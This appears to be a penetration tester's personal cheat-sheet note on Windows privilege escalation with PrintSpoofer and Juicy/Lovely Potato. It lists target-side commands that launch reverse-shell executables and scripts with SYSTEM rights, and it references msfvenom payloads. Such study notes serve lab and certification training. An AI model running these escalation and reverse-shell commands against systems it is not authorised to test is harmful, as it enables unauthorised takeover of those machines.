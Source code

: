 #### PrintSpoofer
**If Windows server, try PrintSpoofer!**

```command prompt - target
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
https://github.com/itm4n/PrintSpoofer/releases
```

Transfer to target.

[[4._File Transfers]]

[[rlwrap]]

Use either exe or ps1 for reverse shell:

[[1._Reverse Shells (WIN)#Stageless Payloads]]
```command prompt - target
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Windows\Temp\Tools\reverse64.exe"
```

OR

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

OR

[[1._Reverse Shells (WIN)#PowerShell 1 liner]]

```command prompt - windows
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Users\thecybergeek\AppData\Local\Temp\Shelly.ps1"
```

Start another listener on Kali.

[[rlwrap]]

5. Now run the PrintSpoofer exploit to trigger a reverse shell running with SYSTEM privileges:

```command prompt - windows
C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"
```

#### Juicy Potato-Lovely
```bash - kali
git clone https://github.com/TsukiCTF/Lovely-Potato && cd Lovely-Potato
```

[[Python#Server]]

[[1._Reverse Shells (WIN)#MSFVenom]]

MAKE SURE YOU HAVE ALL THESE FILES IN LOVELY-POTATO FOLDER:
- [ ] Invoke-LovelyPotato.ps1
- [ ] JuicyPotato-Static.exe
- [ ] test_clsid.bat
- [ ] reverse.exe

[[rlwrap]]
